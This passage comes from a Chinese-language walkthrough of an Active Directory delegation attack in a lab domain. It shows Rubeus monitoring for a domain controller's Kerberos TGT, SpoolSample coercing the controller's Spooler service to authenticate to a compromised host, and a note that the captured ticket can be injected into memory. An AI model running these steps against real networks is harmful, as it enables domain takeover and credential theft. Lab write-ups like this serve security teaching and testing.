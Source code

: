 ```plain
#格式：
Rubeus.exe monitor /interval:5 /filteruser:VICTIM-DC-NAME$

#示例：
Rubeus.exe monitor /interval:5 /filteruser:dc$
```

[![](assets/1705982146-106bc5573d90ebaac49afa16288c5ffd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222802-1dfe7508-b7a0-1.png)  
Step 4：使用 spoolSample.exe 向 DC 的 Spooler 服务发送请求，强制其访问 win7 进行身份验证

```plain
SpoolSample.exe dc.hacke.testlab win7-test.hacke.testlab
```

[![](assets/1705982146-43db67d6c4da105cf4e43610fcaadd52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222818-27d57856-b7a0-1.png)  
Step 5:之后在 Rubuse 中成功捕捉到来自目标 dc 的认证请求 (此时的 Rubeus.exe 捕获到的 TGT 是 base64 编码的，但是我们不需要解码，Rubeus 可以直接将 base64 编码的票据直接注入到内存中)  